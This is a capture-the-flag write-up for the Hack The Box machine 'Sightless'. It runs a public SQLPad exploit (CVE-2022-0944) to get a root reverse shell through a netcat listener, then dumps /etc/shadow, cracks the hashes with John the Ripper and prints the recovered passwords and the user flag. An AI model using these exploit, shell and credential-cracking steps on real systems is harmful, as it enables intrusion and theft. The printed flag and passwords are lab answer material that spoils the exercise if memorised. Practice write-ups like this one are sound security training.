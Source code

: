 ![](Pasted%20image%2020241020223114.png)

###### [more](https://app.hackthebox.com/machines/Sightless)
# Recon

- Nmap scan

> nmap -sCSV -T4 $ip
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 01:36 AEDT
Nmap scan report for 10.10.11.32 (10.10.11.32)
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/20%Time=6713C3F1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.11 seconds
```

- checking http://sightless.htb
- found http://sqlpad.sightless.htb/

# Vulnerability Discovery

- found vulnerability in sqlpad - [here](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)
- found more info about the vulnerability - [here](https://github.com/shhrew/CVE-2022-0944?tab=readme-ov-file)

# Exploitation

> python3 main.py http://sqlpad.sightless.htb/ 10.10.16.30 9999            
```
[┤] Trying to bind to 10.10.16.30 on port 9999: Trying 10.10.16.30
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1075, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.12/threading.py", line 1012, in run
    self._target(*self._args, **self._kwargs)
  File "/home/lnxuser/ctfs/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/lnxuser/ctfs/CVE-2022-0944/venv/lib/python3.12/site-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use

```

>  nc -vlnp 9999
```
listening on [any] 9999 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.32] 37106
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# Post-Exploitation

- checking /etc/shadow file

> cat /etc/shadow
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

- seems like user flags can be cracked by john the ripper
- store michael and root line in hash.txt and use john

> john hash.txt -w=/usr/share/wordlists/rockyou.txt    
```
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)     
insaneclownposse (michael)     
2g 0:00:00:06 DONE (2024-10-20 03:21) 0.3322g/s 10205p/s 17009c/s 17009C/s XIOMARA..sinead1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# CTUF 

- after ssh-ing michael I found the user flag

> ssh michael@10.10.11.32 
```        
michael@10.10.11.32's password: 
Last login: Sat Oct 19 16:24:49 2024 from 10.10.16.31
michael@sightless:~$ ls
exploit.py  linpease.sh  new  README  result.txt  user.txt
michael@sightless:~$ cat user.txt 
4e365dc2a4a1350b73e96c3e232fe9e2
```

# Privilege Escalation

- TBD